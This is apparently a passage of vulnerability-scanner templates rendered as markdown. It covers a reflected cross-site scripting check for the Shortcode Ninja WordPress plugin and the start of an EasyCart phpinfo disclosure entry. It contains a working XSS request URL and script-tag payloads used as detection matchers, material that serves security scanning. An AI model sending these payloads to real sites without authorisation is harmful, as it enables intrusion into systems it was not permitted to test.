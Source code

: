 
**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Shortcode Ninja \<= 1.4 - Cross-Site Scripting
## Description
- A cross-site scripting vulnerability in preview-shortcode-external.php in the Shortcode Ninja plugin 1.4 and earlier for WordPress allows remote attackers to inject arbitrary web script or HTML via the shortcode parameter.
- severity - medium
- tags - wordpress,wp-plugin,xss,wpscan,cve,cve2014,unauth
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/shortcode-ninja/preview-shortcode-external.php?shortcode=shortcode%27%3E%3Cscript%3Ealert%28document.domain%29%3C/script%3e
### Matchers

**Type - word**
- words
    1. '>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress EasyCart \<2.0.6 - Information Disclosure
## Description
- WordPress EasyCart plugin before 2.0.6 contains an information disclosure vulnerability. An attacker can obtain configuration information via a direct request to inc/admin/phpinfo.php, which calls the phpinfo function.
